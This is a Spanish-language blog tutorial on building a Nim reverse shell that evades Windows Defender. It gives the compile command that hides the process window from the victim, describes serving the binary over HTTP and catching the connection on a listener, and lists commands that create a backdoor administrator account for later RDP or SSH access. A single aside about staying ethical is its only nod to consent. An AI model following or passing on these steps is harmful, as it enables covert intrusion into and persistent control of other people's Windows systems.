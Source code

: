 ```yaml
---
title: Bypass Windows Defender con Nim.
published: true
---
```


En este artículo, os muestro como es posible eludir el AV de Windows para obtener un shell inverso estable con nim

## ¿Qué es Nim?
Según el sitio web oficial de NIM, lo definen como un lenguaje de programación que tiene el poder de poder generar archivos ejecutables sin la necesidad de dependencias. Es utilizado para desarrollar aplicaciones para sistemas Windows, BSD, Linux, etc.

## Requisitos previos.
Como es de entender, se necesita tener instalado previamente nim y mingw. Esto se puede completar mediante la comanda:

```bash
Debian: sudo apt install nim mingw-w64
Fedora, CentOS, RHEL: sudo dnf install nim mingw64-gcc
Arch Linux: sudo pacman -S nim mingw-w64-gcc
OpenSUSE: sudo zypper install nim mingw64-gcc
```
Una vez acabada con la instalación debemos de clonar un repositorio de GitHub, el cual es el encargado de hacer nuestra tarea.
```
https://github.com/Sn1r/Nim-Reverse-Shell
```
## Tutorial.
Una vez clonado, debemos de editar las variables v1 y v2, reemplanzadolas por nuestra IP y el puerto que queramos usar del archivo.

> ![imagen](https://github.com/cerodah/blog/assets/82907557/79c01442-3105-406a-bb5d-0c68c31c4aa9)

Una vez hecho, debemos de escribir este comando
```bash
nim c -d:mingw --app:gui --opt:speed -o:Prueba.exe rev_shell.nim
```
Desglosamiento:
* **c:** Indicamos al compilador que complile con c.
* **-d:mingw:** Indicamos al compilador que use MinGW como cadena de strings para compilar. Permite ejecutar código nativo de Windows en sistemas Unix y Linux.
* **-app:gui:** Mientras se ejecuta el shell inverso en la máquina víctima (siempre éticos) el proceso se crea en segundo plano y la CLI no se muestra al usuario.
* **--opt:Speed:** Optimizamos el código para agilizar la velocidad de ejecución.
  Bueno... y los otros parámetros ya se puede intuir...
  > ![imagen](https://github.com/cerodah/blog/assets/82907557/c255ed96-3723-47e1-a550-e3861268f1bc)

Activamos un servidor HTTP en nuestra máquina local para poder nosotros descargarlo desde la máquina víctima y a la vez nos ponemos en escucha por el puerto establecido anteriormente (mi caso el 1337, jejeje).

> ![imagen](https://github.com/cerodah/blog/assets/82907557/bce96b4c-5bc1-4bc8-92ca-16c9d09cc772)

El Windows Defender no me ha avisado absolutamente de nada, pero hablaremos de una cosa más adelante.
> ![imagen](https://github.com/cerodah/blog/assets/82907557/e0dd89b7-7d95-4ff3-b2d2-86dc90e7abdb)
Y finalmente entablamos una conexión con la máquina víctima :). Si da el caso en el que se nos cierra la shell debido a restricciones simplemente creamos un nuevo usuario rápidamente con privilegios de administrador y posteriormente iniciar sesión a través de RDP o SSH si estuvieran abiertos los puertos.
```bash
 net user cerodah cerodah123 /add
 net localgroup administrators cerodah /add
```

## No todo es lo que parece.
Si nuestra víctima tuviera otro AV, hay una pequeña parte que podría ser detectado. Nos podemos pasar este archivo a VirusTotal y vemos que 30 AV lo han detectado que es un 43,66%.

> ![imagen](https://github.com/cerodah/blog/assets/82907557/f3fd88b2-4d3c-4cb6-9f8f-27e92aefe5a1)

Y con esto me despido...

```bash
Happy Hacking ^^
```
